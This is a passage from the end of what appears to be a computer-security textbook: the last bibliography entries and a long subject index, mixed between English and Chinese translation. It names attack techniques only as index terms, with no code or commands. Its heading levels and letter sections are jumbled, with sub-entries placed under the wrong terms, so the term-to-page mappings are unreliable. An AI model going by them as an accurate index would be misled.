[WAR73b] Ware, W. “Data Banks, Privacy, and Society.” *RAND Technical Report,* P-5131, Nov 1973.

[WEI80] Weinstein, N. “Unrealistic Optimism about Future Life Events.” *Jl of Personality and Social Psychology,* v35 n5, Nov 1980, p806–820.

[WEI88] Weinstein, N. “The Precaution-Adoption Process.” *Health Psychology,* v7 n4, 1988, p355–386.

[WEI95] Weissman, C. “Penetration Testing.” in *Information Security: An Integrated Collection of Essays*, ed. M. Abrams, et al. IEEE Computer Society Press, 1995.

[WEL90] Welke, S., et al. “A Taxonomy of Integrity Models, Implementations, and Mechanisms.” *Proc National Computer Security Conf,* 1990, p541–551.

[WHE04] Wheeler, D. “Secure Programmer: Prevent Race Conditions.” *IBM Technical Library,* 7 Apr 2004. [`www.ibm.com/developerworks/linux/library/l-sprace.html`](http://www.ibm.com/developerworks/linux/library/l-sprace.html)

[WHI01] Whitehorn-Umphres, D. “Hackers, Hot Rods, and The Information Drag Strip.” *IEEE Spectrum,* v38 n10, Oct 2001, p14–17.

[WHI03a] Whittaker, J., and Thompson, H. *How to Break Software*. Pearson Education, 2003.

[WHI03b] Whittaker, J. “No Clear Answers on Monoculture Issues.” *IEEE Security & Privacy,* v1 n6, Nov 2003, p18–19.

[WHI99] Whitten, A., and Tygar, J. “Why Johnny Can’t Encrypt: A Usability Evaluation of PGP 5.0.” *Proc 8th USENIX Security Symp,* Aug 1999.

[WIE83] Wiesner, S. “Conjugate Coding.” *ACM SIGACT News,* v15 n1, 1983, p78–88.

[WIL01] Williams, P. “Organized Crime and Cybercrime: Synergies, Trends and Responses.” *Global Issues,* v8 n1, Aug 2001.

[WIL10] Wilson, T. “At RSA, Some Security Pros Don’t Practice What They Preach.” *Dark Reading,* 5 Mar 2010.

[WIL17] Wilson, W. “Presidential Proclamation 40 Stat. 17.” 26 Dec 1917.


\[WIL18\] Wilson, W. “Presidential Proclamation 40 Stat1807.” 22 Jul 1918.

\[WIN05\] Winkler, I. “Guard against Titan Rain hackers.” *Computerworld,* 20 Oct 2005.

\[WOR14\] Wortham, J. “Off the Record in a Chat App? Don’t Be So Sure,” *New York Times*. 8 May 2014. [`www.nytimes.com/2014/05/09/technology/snapchat-reaches-settlement-with-federal-trade-commission.html`](http://www.nytimes.com/2014/05/09/technology/snapchat-reaches-settlement-with-federal-trade-commission.html)

\[WU05\] Wu, H. “The Misuses of RC4 in Microsoft Word and Excel.” *IACR Cryptology e-print archive*. V2005 n7, 2005.

\[WUL74\] Wulf, W., et al. “Hydra: The Kernel of a Multiprocessor Operating System.” *Comm of the ACM,* v17 n6, Jun 1974, p337–345.

\[YAG10\] Yager, N., and Dunstone, T. “The Biometric Menagerie.” *IEEE Trans Pattern Analysis and Machine Intelligence,* v32 n2, Feb 2010, p220–226.

\[YAN11\] Yan, J., and El Ahmad, A. “Captcha Robustness: A Security Engineering Perspective.” *IEEE Computer,* v44 n2, Feb 2011, p54–60.

\[ZHA12\] Zhang, Y., et al. “Cross-VM Side Channels and Their Use to Extract Private Keys.” *ACM Conf on Computer and Comm Security 2012,* 2012.

#### 索引

`1×1 GIF`, 254, 628

`802.11 protocols (WiFi)`, 376

抽象，在操作系统中，289

验收测试，211

访问

被阻断，399

并发，11

受控，283

排他性，11

日志，74

中介，152, 155

模式，72

访问点，混杂模式，386

访问点，未文档化的，157

访问点，无线，376

个人权利，603

同时，11

窃取，750

访问数据，8

访问数据，作为资产，3

跟踪，546

未授权物理访问，689

访问控制、`12`、72、78、815

能力，82

目录，76 82

票据，82

数据库，506、`508`、`511`

设备，284

失效，152、155

文件，284

通用对象，284

粒度，287、511

#### 索引

##### A

`list`, 80, 292

`matrix`, 78

`paradigm`, 292

`physical`, 690

`privacy`, 594, 608

`policy`, 9

`privilege list`, 82

`procedure-oriented`, 85

`propagation`, 77, 83

`revocation`, 76

`role-based`, 85–86

`segmentation`, `303`

`Access log`, 74

##### Accountability（问责制）

- for private data collection, 597

- of asset, `7`

- versus privacy, 641

`Accumulation`, of data, 613

`Accuracy`, 55, 62, 242, 488, 531

##### authentication（认证）

- `56`

- data, 11, 827

- data collection, 599

- elections, 840

- element, database, 513

- risk analysis, 685

`ACL`, *see* Access control list（访问控制列表）

`Activation`, process, 320

`Ad`, third-party, 622

`Add subkey`, in AES, 790

`Add-in`, browser, 232

`Add-on`, security as an, 315

##### Address（地址）

- hiding, 303

- resolution, 414

- space randomization, 210

- spoofing, 413

- translation, page, 306

- translation, segment, 303

`Addressing`（寻址） 418, 434, 446

- advertising routing, 410

- failure of, 408

- network, 351

- stealth mode, 487

`Adelman, Leonard`, 103, 795

`Administration`, of access control, 73

`Administrator`, database, 502

`Administrator`, system, 358

`Advanced Encryption Standard (AES)`, *see* AES

`Advanced Persistent Threat`, `15`

`Advertiser`, 626

`Advertising`, and privacy, 629

`Advertising`, Internet, 622

`Adware`, 170, 629

`Aerospace industry`, target of attack, 15

`AES (Advanced Encryption Standard)`，98, 393, 439, 779, 789, 803

- cycle in, 99

- key length in, 109

- speed of encryption, 103

- tamper detection, 113

`Agent`, software, 474

##### Aggregation（聚合）

- 246

- data, 640

- database, 526

- data mining, 537

- personal data, 623

- privacy, 618

`AH (Authentication Header)`，*see* Authentication Header

`Al Qaeda`, 20–21

`Alarm`, 691

`Alarm`, intrusion detection system, 483, 484

`Aleph One`, *see* Levy, Elias

`Algebraic inference`, database, 525

`Algorithm`, encryption, 88

`Algorithm weakness attack`, against encryption, 770

`Alias`, email, 632

##### Allocation（分配）

- device, 281

- resource, 286

`Alteration`, digital signature, 802

`Alureon`, 334, 336

`Amazon GovCloud`, 556

`Amazon.com, Inc.`, 631

`Ames, Stan`, 312

`Analysis`, of problem, 816

`Analysis`, risk, *see* Risk analysis

`Analyzer`, code, 150

`Anderson, James P.`, 7, 75, 172, 318, 733

`Android`, 818

`Annenberg Public Policy Center`, 631

`Anomaly-based intrusion detection system`, 476

##### Anonymity（匿名性）

- 613

- email, 634

- Internet, 620

- network, 355

- partial, 606

- privacy, 605

##### Anonymization（匿名化）

- 613, 615

- data, 608

- Hadoop, 545

- privacy, 597

`Antivirus tool`, 191, 329

`AOL`, 527

`Apache Hadoop`, 542

`API`, 211

`App store`, 819

`App`, 819

- review of, 819

- signed, 819

`Appended virus`, 181

`Apple Corp.`, 818

- iCloud, 559

- Mac OS operating system, 291, 302

- SSL bug, 213

`Application Programming Interface (API)`，211

`Application proxy firewall` 459, 468

`Application whitelisting`, 581

`Application-based network attack`, 398

`Approximate value`, of data, 9

##### Architecture（架构）

- network, 470

- system, 450

- tagged, 301, 305

`Arithmetic inference`, database, 522

`ARPANET`, 143, 508

`Asia`, 19

`Asperger syndrome`, 17

`Aspidistra`, 107

`Assembler language`, 150

`Assessment`, situation, 488

##### Association（关联）

- hijacking, 386

- preferred, in wireless network, 386

- WiFi, 380, 383

`Assurance`（保证），76, 820

- Common Criteria, 327

- level, 327

- operating system design, 312

##### Asset（资产）

- 2

- access as, 3

- accountability of, 7

- auditability of, 7

- authenticity of, `7`

- critical, 660

- data as, 3

- fabrication of, 8

- decision-making, 826

- hardware as, 3

- harm to, 5, 8

- intellectual property as, 3

- interception of, 8

- interruption of, 8

- modification of, 7, 8

- nonrepudiation of, 7

- property as, 3

- risk analysis of, 671

- software as, 3

- timeliness of, 4

- use of, 7

- value of, `4`, 5, 6, 21

- viewing of, 7

#### 非对称加密

`89`, 93, 795

#### 数字签名

114

##### 使用密钥交换

105, 107

##### 签名

116

#### 附件

##### 恶意代码的

178

##### 病毒

188

##### 攻击

6

##### 能力

26

##### 数据驱动

`148`

#### 拒绝服务

*参见* 拒绝服务

##### 有向的

14, 19, 423

##### 可行性

27–28

##### 挫败

32

##### 恶意代码

166. *另请参见* 恶意代码

#### 中间人

106

#### 方法

26

##### 多步骤

148

##### 蜜罐的

295

##### 预测

826

##### 随机

14

##### 原因

16

##### 来源

828

##### 攻击面

28

##### 定向的

14, 19, 423

##### 工具包

166, 424

##### 类型，分类

829

##### 网站篡改

20

##### 零日

172

#### 攻击者

18

##### 特征

16

#### 动机

16

##### 画像

16, 17

##### 心理

17

#### 诱人目标

27

##### 属性

##### 数据库

504

##### 数据库，隐藏

528

##### 个人，用于认证

611

#### 归因

##### 攻击源的

843, 844

##### 审计

##### 资产可审计性

7

###### 投票

840

#### 大数据

546

##### 数据库

507, `510`

##### 日志

74, 292

##### 隐私

608

#### 澳大利亚

848

##### 认证

`38`, 108, 240, 569, 610, 816

##### 属性

611

##### 生物特征

`53`

##### 质询-响应

461

##### 计算机

241

##### 持续

245, 817

##### Cookie，作为基础

65

##### 数据库

507, 512

##### 分布式

357

##### DNA 用于

61

##### 可扩展认证协议

393

##### 伪造

58–59

##### 头部，在 IPsec 中

445

##### 人工

240

##### 不完整

394

##### IPsec

446

##### 知识，作为基础

40

##### MAC 地址，用于

377

##### 多因素

70

##### 网络通信

445

##### 无线网络中不存在

390

##### 一次性密码

244

###### 操作系统

283

##### 密码

40

##### 物理特征，作为基础

40, `53`

##### 所持有物，作为基础

65

##### 隐私方面

610, 612

##### 谜题，作为基础

52

##### 问题，作为基础

39, 52

##### 远程

66

##### 凭证重放

364

##### 请求，无线网络

383

##### 所知之物，作为基础

40

##### 所持之物，作为基础

40

##### 强度

612, 817, 820

##### 成功

56

##### 令牌，作为基础

65, `66`

##### 受信路径用于

323

##### 与识别的对比

60, 61

##### 弱

820

##### WiFi

380

##### 无线网络

385

#### 真实性

`92`, 108, 114, 115, 117, 126

#### 数字签名

802

##### 资产

`7`

#### 电子邮件

635

#### 作者

##### 权利

705

#### 授权

8, 11, 574

##### 大数据应用

548

#### 署名权

246, 705

`autoexec.bat`

181

#### 汽车

4

#### 自主移动代理

430

#### 自动运行（自动执行程序）

181

##### 可用性

6, 7, 8, `11–13`, 75, 398

##### 作为资产

671

##### 数据

11

##### 数据库

507, 512

##### 服务

11

###### 投票

834

##### 无线网络

382

#### 后门

158, 170, 356, 787, 790, 845

#### 后台任务

358

#### 备份

198, 421, 694

##### 云

697

##### 完全

694

##### 异地

696

##### 定期

694

##### 循环

695

##### 选择性

696

#### 徽章

##### 用于认证

66

`Bagle`（蠕虫名）

430

#### 信标

##### WiFi

380, 383

`Bell, David`

13


#### Bell-LaPadula 模型

13

#### Bellovin, Steven

417

#### Bernstein, Mary

143, 508

#### 最佳证据规则

735

#### 最佳实践

824

#### BetCRIS

425

#### Beth-Israel-Deaconess 医院

401

#### Biba, Kenneth

13

#### 大数据

540

##### 访问控制

545

##### 访问跟踪

546

##### 粒度

545

##### 审计

546

##### 认证

548

##### 数据共享

543

##### 数据来源溯源

547

##### 数据验证

547

###### 加密

548

##### 过滤

547

#### 完整性

547

#### 索引

##### A

- 连接字段，547
- 用于...的键，547
- 个人数据，545
- 使用...进行预测，541
- 隐私，544
- 专有数据，545
- 安全数据存储，546
- 用于...的安全增强，548
- 安全监控，546

##### B

- Biham, Eli，788
- BiiN 计算机，290，302
- BIND (`Berkeley Internet Name Domain`，伯克利互联网名称域)，414
- 生物识别，53
  - 缺点，55
  - 速度，59，60
  - 模板，59
- BIOS (`Basic I/O System`，基本输入/输出系统)，292
- 生日，615
- 比特币，621
- 黑匣子，航空，640
- 黑帽黑客，759
- 黑盒测试，214
- 黑名单，431，490
- 分组密码，*参见* 分组加密
- 分组加密，93，96，792，795
- 访问阻断，拒绝服务，399
- 血管，用于认证，54
- Boneh, Dan，103
- 书本密码，775
- 引导扇区病毒，187
- 引导，操作系统，280
- 引导加载程序，291
- 引导过程（系统初始化），187
- 机器人，168，170，426
- 机器人主控，427，429
- 僵尸网络，426，429，430
- 边界检查，149
- 有限披露，520
- Boxcryptor，564
- 分支指令，136
- 巴西，19，743，835
- 违规
  - 数据，609
  - 通知，740
  - 调查，828
- 入侵，系统，668
- 破解，加密，90，91，92
- 英国，89，107，318，771，835，846
- 广播模式，无线网络，384
- 浏览器，232
  - 中的加密，437
  - 劫持者，170
  - 中的漏洞，233
- 暴力破解攻击，791
  - 针对密码，42，48
- BSAFE，RSA 密码工具包，807
- 白金汉伯爵，48–49
- 缓冲区溢出，134，139，140，145，149
- 程序错误，132
- 商业案例，用于安全，821
- 业务连续性计划，659，661
- 业务失败，658
- 字节替换，在 AES 中，790
- 字节码验证器，Java，295
- 拜占庭将军问题，430

##### C

- C（编程语言），131，150
- C++（编程语言），131，150
- CA（认证机构），441
- 电缆，网络，343
- 电缆，光纤，从...截获，346
- 加利福尼亚州违规通知法，609，740
- 调用，过程，136
- CAN SPAM 法案，740
- 加拿大，19，318，741，844
- 金丝雀，栈保护，150
- 能力，访问控制机制，82
- 容量
  - 可用性属性，11
  - 网络，398
  - 规划，489
- CAPTCHA，237
- Caputo, Deanna，276
- CartManager，600
- CARVER，675
- 灾难，659
- 民主与技术中心，628，629
- 中心密钥分发，124
- CERT（计算机应急响应小组），美国，*参见* 美国计算机应急响应小组
- CERT，*参见* 事件响应小组
- 可认证性，参考监视器属性，76
- 证书，公钥，121，123，819
- 认证机构，122，124，441
- 保管链，735
- 链接，在密码学中，113，363，784，786
- 挑战，攻击动机，18
- 夏洛特-梅克伦堡，北卡罗来纳州，警察局，541
- 校验位，109
- 检查
  - 访问授权，156
  - 数据区域边界，149
- 校验和，109，112，113，251，429
- Cheswick, Bill，295
- 中国，15，275，391，444，464，844
- 选择明文攻击，771
- C–I–A 三要素，7–13，134，432，545
- 密码套件，在 SSL 中，439
- 密码，769
- 密文，88，103
- 电路级网关防火墙，462
- 民法，722
- 古典概率，676
- 透明 GIF，254，627
- 白盒测试，214
- 点击劫持，256
- 客户端-服务器网络，18
- Clipper，805
- 时钟，受控访问，283
- 封闭模式，无线网络，384
- 云计算
  - 备份，697
  - 特征，551–552
  - 部署模型，552
  - 身份管理，568
  - 迁移，553
  - 平台，579
  - 隐私影响，642
  - 处理，817
  - 提供商评估，554
  - 风险分析，553
  - 安全控制，554
  - 服务模型，552
  - 存储，557，561，580
  - 威胁，566
  - 漏洞，554
- 代码
  - 分析器，静态，150
  - 破解，*参见* 加密，破解

#### 索引条目

##### 开发实践

*参见* 程序开发实践

##### 错误纠正

516

##### 错误检测

*参见* 错误检测代码

##### 错误检测

516

##### 隐藏

192

##### 库

189

##### 修改检查器

482

#### 修改

148, 819

##### 程序

137

###### 评审

程序保证技术, 221

##### 评审员

158

##### 签名

251

##### Code Red

172, 175, 179, 182, 209, 731

##### 内聚

软件, 206

##### 冷站点

灾难恢复, 698

##### 低温

对半导体的影响, 772

##### 冲突

在错误检测代码中, `110`, 800
栈和堆, 148

##### 科罗拉多州立大学

17

##### 命令序列

817

##### 命令与控制中心

僵尸网络, 245, 426, 427, 428

##### 电子商务

互联网, 630

##### 提交

两阶段更新, 514

##### 通用准则

327

##### 通用规则

763

##### 通用漏洞披露 (CVE)

14

##### 通用漏洞评分系统 (CVSS)

14

##### 通信

电子邮件, 632
进程间, *参见* 进程间通信

##### 社区云

552, 555

##### 分区

访问控制, 80

##### 竞业

雇佣合同, 728

##### 编译器

201, 209
正确代码生成, 140
在程序安全中的作用, 150

##### 完全中介

设计原则, 217, 315

#### 完整性

中介, 217, 315
操作系统, 314, 320
操作系统设计, 314
安全需求, 653
测试, 214

##### 复杂性

网络, 358
操作系统, 187
操作系统设计, 291
程序, 149
与安全的对比, 208

##### 合规

824

##### 组件故障

420, 421

##### 妥协

74

##### 可计算性

218, 219

##### 计算机

犯罪媒介, 736
安全, 2
攻击源, 20
攻击对象, 736
系统, `3`
攻击目标, 20
时间, 窃取, 750
攻击工具, 736

##### 计算机犯罪

733
复杂性, 736, 743
罪犯, 742
证据, 736
不断演变的法律, 736. *另请参见* 计算机犯罪法律
国际方面, 736, 741
起诉, 736

##### 计算机犯罪法律

CAN SPAM 法案, 740
欧洲委员会网络犯罪公约, 741
欧盟数据保护法案, 742
信息自由法案, 738
美国计算机欺诈与滥用法案, 738
美国经济间谍法案, 738
美国电子通信隐私法案, 739
美国健康保险流通与责任法案 (HIPAA), 739
美国隐私法案, 738
美国爱国者法案, 740

##### 计算机应急响应小组 (CERT)

*参见* 事件响应小组, 安全运营中心

##### 美国计算机应急响应小组

*参见* 美国计算机应急响应小组

##### 计算机取证

567

##### 美国计算机欺诈与滥用法案

620

##### 计算机安全事件响应小组 (CSIRT)

*参见* 事件响应小组, 安全运营中心

##### 计算机安全

2

##### 隐藏

数据, 529–535
恶意代码, 178, 189
密码, 46

##### 并发

11, 286
控制, 282
数据库, 517
Hadoop, 543

##### Conficker

174, 175, 179, 182, 428

##### 信任度

在可信系统中, 317

##### 机密性

6, `7`, `8–10`, 109, 126, 844
数据, 518
数据库, 512, 529
数据库, 529
IPsec, 446
网络, 441, 443
投票, 834
无线网络, 381

##### 配置管理

509

##### 配置

防火墙, 453, 466, 472

##### 限制

程序开发实践, 207

#### 扩散

在密码学中, 774, 808

##### 连接故障

物理, 420

##### 连接

非法, 382

##### 连通性

网络, 371, 847, 849

##### 后果

攻击的, 826

##### 一致性

数据, 11, 506, 827
安全需求, 653

##### 内容

过滤, 464

##### 上下文

隐私的, 601

##### 应急计划

688, 694

##### 合同

验收, 723
雇佣, 725, 727
信息, 724
法律, 723
软件, 724
涉及的诉讼, 725
有效性, 723
自愿签订, 723

##### 控制

`6`, 22, `28`, 32
访问, *参见* 访问控制
管理, 30
成本, 29
易用性, 29
逻辑, *参见* 控制, 技术, 和 控制, 管理
丧失, 814
重叠, 30
物理, 29
程序, 30
程序, 149
降低脆弱性, 670
风险, 668
安全, 653

#### 索引

##### S

`selection`, 680
`technical`, 30, 75

##### C

`Controlled access`，用于隐私，608
`Controlled sharing`，287
`Convention 108`，欧洲委员会公约，603
`Cookie`，625, 627
- 用于认证，65
- 用于无线网络关联，386
- 第三方，625
`COPPA`，*参见* 美国儿童在线隐私保护法案
`COPS` (密码管理工具)，43, 369
`Copying`，受版权保护材料的，707
`Copyright`，704
- 作品备份，706
- 计算机软件，709
- 复制，707
- 打击盗版的设备，709
- 数字对象，709
- 作品分发，706
- 雇员作品，727
- 合理使用，706
- 首售原则，708
- 独立作品，709
- 侵权，709
- 作品独创性，706
- 所有权，726
- 个人使用原则，708
- 盗版，707
- 公共领域，705
- 登记，708
- 发表要求，709
- 网页内容，716
- 职务作品，726
- 受版权保护的作品，705
`Cornell University`，18
`Correction`，错误的，11
`Correctness`
- 数据挖掘，538
- 数据，616
- 操作系统设计，314
- 操作系统，317, 320
- 程序，133, 219
- 程序证明，219
- RFID 传感器，639
- 安全需求，653
- 软件，206
`Correlation`，537, 613, 617, 622
`Corruption`，数据，361, 432
`Cost`
- 数据丢失，695
- 隐性，679
- 恶意代码，179
- 安全，657, 824
`Cost–benefit analysis`，669, 681
`Council of Europe Agreement on Cybercrime`，741
`Council of Europe`，603
`Counterattack`，485
`Countermeasure`，6, 22, 28, 32, *另见* Control
`Coupling`，软件的，206
`Coverage`，测试，214
`Covert redirect`，577
`Cowan, Crispin`，150
`Crack` (密码管理工具)，43
`Cracking`，761
`Credit card theft`，19, 22
`Credit card`，一次性，621
`Crime`，计算机，*参见* Computer crime
`Crime`，有组织，*参见* Organized crime
`Criminal law`，722
`Criminal`，16, 19, 742
`Crisis management`，*参见* Business continuity plan, Incident response
`Crocker, Stephen`，143, 508
`Crossover`，网络，363
`Cross-site scripting`，261
`Cryptanalysis`，90, 769
- 暴力破解，791
- 选择明文攻击，771
- 冻结攻击，772
- 频率分析攻击，769
- 频率分析，793
- 完全明文，770
- 实现攻击，769
- 在 AES 中，99
- 推断算法，774
- 已知明文，770
- 模式分析攻击，769
- 明文和密文，770
- 仅密文，768
- 可能明文攻击，770
- 可能明文，793
- RSA，797
- 统计分析，776
`Cryptographic`
- 算法，95
- 校验和，113
- 侧信道攻击，566
`Cryptography`，86, 90, 768
- 非对称，102
- 使用密码学进行认证，817
- 书本密码，775
- BSAFE 工具包，807
- 链接，784, 786
- 使用密码学的校验和，113
- 扰乱，774, 808
- 差分密码分析，788
- 扩散，774
- Dual-EC-DBRG，806
- El Gamal，803
- 椭圆曲线密码系统 (ECC)，802
- 出口管制，792, 793, 794, 805
- Keccak，801
- 密钥托管，805
- Lucifer 算法，780
- 数学基础，778
- MD4，800
- MD5，800
- 网络安全控制，433
- 一次性密码本，774
- 乘积密码，782
- 公钥，100, 102
- 算法公开审查，779
- 量子，807
- RC2，792
- RC4，792
- RC5，794
- RC6，795
- RSA，795
- 密钥，96
- 使用密码学进行分离，296
- SHA，800
- SHA-3，801
- 强度，817
- 替换，774
- Suite B，803
- 对称，96
- 置换，774
- Vernam 密码，775
- 弱点，789, 792, 794, 806
`Cryptolocker`，565
`Cryptology`，90
- 与 NSA，805. *另见* 美国国家安全局
`Cryptosystem`，87
`CSA STAR` (云安全联盟安全、信任与保障注册表)，555
`CSIRT`，*参见* 事件响应团队
`Currency`，虚拟，621
`CVE`，*参见* 通用漏洞披露
`CVSS`，*参见* 通用漏洞评分系统
`Cyber warfare`，842
`Cyber weapon`，847
`Cybercrime`，19
- 欧洲委员会网络犯罪公约，741
`Cyberworthiness`，730
`Cycle`
- 在 AES 中，98
- 在 SHA-3 中，801

#### 循环冗余校验

111, 516

#### 守护进程

352

#### 名称

414

#### 损害控制

在软件设计中，311

#### 损害

来自恶意代码，179

#### 暗网

444

#### 达尔文（计算机游戏）

172

##### 数据

##### 访问

8

##### 访问，作为资产


### 访问，个人的权利

603

### 准确性

11

### 匿名化，为隐私

597

### 近似值

9

### 作为资产

3, 671

### 偏见

759

### 泄露法律

609

### 一致性

11

### 正确性

616

### 损坏

361

### 关键数据

281

#### 泄露

8

#### 数据驱动攻击

148

##### 错误，与隐私

608

##### 存在性

9

##### 暴露

177

#### 完整性

10–11

##### 不可替代

696

##### 丢失，成本

695

##### 有意义

11

##### 误导性

759

#### 修改

11, 529, 597

##### 修改，为隐私

597

##### 对象

9

##### 所有权

8, 596, 608

##### 扰动，数据库

534

##### 精度

11

##### 隐私

736

##### 私有数据

587

##### 保护

687

##### 保护，与隐私

597

##### 质量，与隐私

596, 608

##### 替代

3, 4

##### 保留，有限

597

###### 撤回

594

###### 敏感数据

587

###### 分离

11

##### 共享访问

287

##### 存储

546

##### 存储，为隐私

608

##### 主体

9

##### 抑制，数据库

529

##### 交换，数据库

535

##### 传输，与隐私

603

##### 未经检查

153

##### 使用，政府，与隐私

607

##### 使用，隐私

590

##### 使用，受限

608

##### 验证，结合大数据

547

##### 价值

736

##### 与指令对比

137

#### 数据收集

##### 准确性

599

##### 同意

591

##### 控制

599

##### 用于特定目的

603

##### 限制

596, 603

##### 通知

591, 599

##### 公开性

597

##### 所有权

592

##### 隐私

590, 640

###### 安全性

599

###### 数据挖掘

246, 527, 536

##### 聚合

537

##### 正确性

537

##### 相关性

537

##### 假阴性

540

##### 假阳性

540

#### 推理

537

##### 互操作性

540

#### 错误

538

##### 隐私

537, 616

##### 隐私保护

617

##### 敏感性

537

#### 数据加密标准

*见* `DES`

#### 数据丢失防护 (`DLP`)

473

#### 数据保护法

742

#### 数据库管理系统 (`DBMS`)

502

##### 数据库

502

##### 访问控制

508

##### 管理员

502

##### 聚合

526

##### 代数推理

525

##### 算术推理

522

##### 审计

510

##### 认证

512

##### 可用性

512

##### 有限泄露

520

##### 并发性

517

##### 机密性

512

##### 数据隐藏

529–535

##### 数据泄露

529

##### 数据扰动

529, 534

##### 数据交换

535

#### 泄露

518

##### 元素

502

##### 元素准确性

513

##### 元素完整性

508, 513

##### 精确泄露

519

##### 存在性泄露

520

##### 字段检查

508

##### 字段

502

##### 粒度

512

##### 隐藏数据

527

#### 推理

511, 521–525

#### 完整性

513

##### 完整性，两阶段更新

514

##### 连接查询

505

##### 键

512, 621

##### 有限响应抑制

532

##### 平均值推理

523

##### 中位数推理

523

##### 负面泄露

520

##### 操作系统保护

513

##### 性能

511

##### 可能值泄露

520

##### 投影操作

504

##### 保护其中的数据

721

##### 查询

504

##### 查询分析

535

##### 查询语言

504

##### 随机样本泄露

534

##### 范围泄露

533

##### 记录

502

##### 恢复

516

###### 关系

504

###### 可靠性

513

##### 舍入泄露

533

#### 模式

502

###### 敏感数据

518

##### 影子字段

516

##### 小样本隐藏

534

##### `SQL` 查询语言

504

##### 子模式

502

##### 表

502

##### 追踪器推理

524

##### 元组

504

##### 用户认证

512

#### 数据驱动攻击

189

#### 数据报

407, 415

#### `DataNode`

在 `Hadoop` 中，543

#### `DBMS`

*见* 数据库管理系统 (`DBMS`)

#### `DDoS` 攻击

*见* 分布式拒绝服务攻击

#### `DEA`

加密算法，780

#### `DEA1`

加密算法，780

#### 死锁

11, 282

#### `DEC VAX` 计算机

290, 314, 326

##### 欺骗

与隐私，600

#### 欺骗，电子邮件

740

#### 欺骗行为

630

#### 可判定性

190, 218, 219

#### 破译

87

#### 决策制定

25, 684, 831

#### 解码

87

##### 解密

87

##### 篡改

##### 网站

*参见* 网站篡改

#### 深度防御

**30**, 218, 471

#### 国防部

##### 部门

*参见* 美国国防部

#### 防御性编程

222

#### 除颤器

816

#### 偏转

###### 攻击对策

28

#### 退磁

##### 磁性介质

693

#### 降级

##### 优雅

*参见* 优雅降级

#### 降级服务

###### 网络

849

#### 延迟

##### 访问检查中的

156

#### 删除

##### 数据

134, 692, 772

#### 德尔菲法

677, 678

###### 需求

###### 网络

398

#### 非军事区 (`DMZ`)

##### 防火墙架构

470

#### 拒绝服务

6, 14, 18, 20, 175, 367, **396**, 753

#### 拒绝服务 (`DoS`) 攻击

6, 20, 425, 843

##### 访问

###### 被阻断

399

##### 地址解析

414

##### 地址欺骗

413

##### 寻址故障

408

##### 分布式

*参见* 分布式拒绝服务攻击

#### `DNS`

414

##### `DNS` 缓存投毒

418

##### `DNS` 欺骗

409

##### `Echo–chargen`

404

##### 洪水攻击

398, **402**, 407

##### 硬件

845

#### 事件

401

##### 资源不足

**402**, 407

##### 恶意

403

##### 过载

399

#### 死亡之 `Ping`

404

##### 根名称服务器

414

###### 路由

409, 413

##### 脚本化

423

##### 会话劫持

415

##### `Smurf`

404

##### 源路由

413

##### `SYN` 洪水

405

##### `Teardrop`

407

##### 部落洪水网络

424

##### 容量型

399, 423

#### `Denning`

##### `Dorothy`

530

##### `Peter`

72, 292

#### 义务论

749

#### 国防部

*参见* 美国国防部

#### 司法部

*参见* 美国司法部

###### 可靠性

12

#### `DES` (数据加密标准)

95, 439, 779

##### 计算局限性

98

##### 循环

99

##### 解密

784

##### 设计保密性

787

#### 差分密码分析

788

##### 用于篡改检测

113

##### 密钥长度

96, 98, 109

##### 循环次数

788

##### 可逆性

784

###### 安全性

98, 787

##### 加密速度

103

##### 强度

789, 805

#### 契约式设计

##### 程序设计技术

223

#### 设计缺陷

6

#### 设计原则

216

#### 设计

##### 密码算法

779

##### 分层

309

##### `RSA`

797

##### 简洁性

309

##### `TCB`

321

#### 检测

###### 攻击对策

28

##### 规避

###### 由恶意代码

191

#### 错误

11

##### 恶意代码

189

##### 篡改

151

#### 检测器

##### 病毒 (程序)

*参见* 病毒检测器

#### 威慑

###### 攻击对策

28

#### 开发

##### 实践

*参见* 程序开发实践

##### 程序

###### 安全性

158

##### 高质量软件

816

#### 设备

##### 访问控制

284

##### 分配

281

##### 驱动程序

288

##### 丢失

818

#### 拨号程序

#### `Microsoft`

135

#### 二分测试

56

#### 字典攻击

##### 针对口令

43

#### 差分密码分析

788

#### `Diffie`

##### `Whitfield`

98, 101, 645, 791

#### `Diffie–Hellman` 密钥交换

446, 803

#### 扩散

##### 密码学中的

774

#### 数字千年版权法案 (`DMCA`)

704, 709

#### 数字签名算法 (`DSA`)

804

#### 数字签名

109, **113–116**, 118, 121, **124**, 251, 419, 428, 721, 802, 803, 819

#### 外交

848

#### 直接推理

##### 数据库

521

#### 定向攻击

14

#### `95/46/EC` 指令

##### 欧盟

*参见* 欧盟隐私指令

#### 目录

##### 访问控制

76

#### 消失的电子邮件

635

#### 反汇编器

201

#### 灾难

##### 自然

*参见* 自然灾害

#### 泄露

##### 有界

520

##### 数据

736

##### 数据库

518, 529

##### 精确

519

##### 存在性

520

##### 负面

520

##### 数据

8

##### 漏洞

833

##### 起搏器数据

816

##### 可能值

520

##### 漏洞

185

#### 断开连接

###### 网络

420

#### 歧视

605

#### 歧视

##### 价格

631

#### 分布式拒绝服务 (`DDoS`) 攻击

421, **423**

#### 分发

##### 加密密钥

93

#### 多样性

558

#### 多样性

##### 遗传

*参见* 遗传多样性

#### `DLP`

*参见* 数据丢失防护

#### `DMCA`

*参见* 数字千年版权法案

#### `DMZ`

*参见* 非军事区

#### `DNA`

##### 使用...进行认证

61

#### `DNS`

414

##### 缓存投毒

418

##### 查找请求

409

##### 记录

419

##### 欺骗

**409**

#### `DNSSEC`

##### (`DNS` 安全扩展)

419

#### 原则

##### 战争

850

#### 文档病毒

180

#### `DoD`

*参见* 美国国防部

##### 域

82

##### 执行

**286**

#### 名称

444

#### 索引

##### S

**switching**, 320

**DoS (Denial of Service)**, *see* 拒绝服务

**Dot-dot-slash attack**, 264

**Double DES**, **96**

**DoubleClick**, 625

**Download substitution attack**, 237

**Download**, and privacy, 629

**Drive-by-download**, 258

**Dropbox**, 561, 563

**Dropper**, 170

**Drug trafficking**, 19

**DSA**, *see* 数字签名算法

**Dual-EC-DBRG cipher suite**, 806

**Dual-homed gateway**, 450

##### E

**E.U. Data Protection Act**, 742

**Ease of use**, design principle, 217, 317

**Easter egg**, **158**

**Eavesdrop**, 243, 343, 354, 432, 808

**ECC**, *see* 椭圆曲线密码系统

**Echo–chargen attack**, 404, 477

**Economics**, of security, 821

**Economy of mechanism**, design principle, 217, 315

**Effectiveness**, of testing, 215

**Egoism**, 748

**e-Government Act**, 599

**Egypt**, 847, 849

**El Gamal algorithm**, 803, 804

**El Gamal, Taher**, 803

**Eleanore (attack toolkit)**, 166

**Election, fair**, 836, 837
